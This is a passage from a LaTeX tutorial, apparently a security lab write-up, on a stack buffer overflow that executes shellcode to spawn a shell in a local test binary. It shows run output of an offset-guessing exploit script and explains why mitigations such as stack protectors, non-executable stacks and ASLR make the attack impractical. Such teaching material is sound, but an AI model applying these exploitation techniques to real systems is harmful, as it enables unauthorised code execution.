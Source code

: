 \documentclass{article}
\begin{document}
As expected, the program spawns a shell. This is a remarkable result when you
think about it. Starting from a program which does nothing but read input, check
it, and print output, we have achieved arbitrary code execution!

We managed to get a shell, but this is a pretty useless exploit in practice. Let
us count the ways:

\begin{enumerate}
    \item The program must be compiled with \texttt{-fno-stack-protector}
    \item The program must be compiled with \texttt{-z execstack}
    \item Modern systems use a mitigation technique called Address Space Layout
        Randomization (ASLR), which makes it impossible to use \texttt{gdb} to
        learn stack addresses
    \item It requires several guesses
    \item The range of guesses can be arbitrarily large
\end{enumerate}

The last point is due to the fact that the program can be run with arbitrarily
many environment variables. One way to see this work is to run
\texttt{/bin/bash} from within itself.

\begin{lstlisting}
> ./shellcode_solution.py 
<truncated>
[+] Spawning shell with offset 73
[+] Starting local process './shellcode': pid 1083
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './shellcode' stopped with exit code 0 (pid 1083)
[*] Got EOF while sending in interactive

> /bin/bash
> ./shellcode_solution.py 
<truncated>
[+] Spawning shell with offset -81
[+] Starting local process './shellcode': pid 3080
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './shellcode' stopped with exit code 0 (pid 3080)
[*] Got EOF while sending in interactive

> /bin/bash
> ./shellcode_solution.py 
<truncated>
[+] Starting local process './shellcode': pid 4402
[-] No working offsets found
> 
\end{lstlisting}
\end{document}

